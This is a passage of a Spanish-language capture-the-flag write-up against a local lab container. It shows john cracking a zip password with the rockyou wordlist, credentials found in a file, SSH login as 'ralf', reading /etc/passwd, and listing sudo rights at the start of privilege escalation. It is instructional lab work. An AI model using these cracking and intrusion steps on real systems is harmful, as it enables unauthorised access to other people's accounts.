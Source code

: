 Realizamos el ataque:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Tenemos la contrasena:
```bash
computer         (secret.zip/confidencial.txt)
```

Ahroa volvemos a descomprirmir el archivo ya con la contrasena:
```bash
7z x secret.zip # ( computer )
```

Obtuvimos este archivo: **confidencial.txt** y su contenido es:
```bash
File: confidencial.txt
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
You have to change your password ralf, I have told you many times, log into your account and I will change your password.
Your new credentials are:

ralf:supersecurepassword
```
### Intrusion
Ahora que tenemos las credenciales las usaremos para intentar conectarnos por **ssh** con el usuario **ralf**
```bash
# Reverse shell o acceso inicial
ssh-keygen -R 172.17.0.2 && ssh ralf@172.17.0.2 # ( supersecurepassword )
```

---

## Escalada de Privilegios

###### Usuario `[ ralf ]`:
Listando los usuario del sistema tenemos:
```bash
cat /etc/passwd | grep "sh"
```

users
```bash
root:x:0:0:root:/root:/bin/bash
ralf:x:1001:1001:ralf,,,:/home/ralf:/bin/bash
capa:x:1000:1000:capa,,,:/home/capa:/bin/bash
```

Listando los permsios para este usuario:
```bash
sudo -l

User ralf may run the following commands on 82aade8ab41b:
    (capa : capa) NOPASSWD: /usr/local/bin/busybox /nothing/*
```
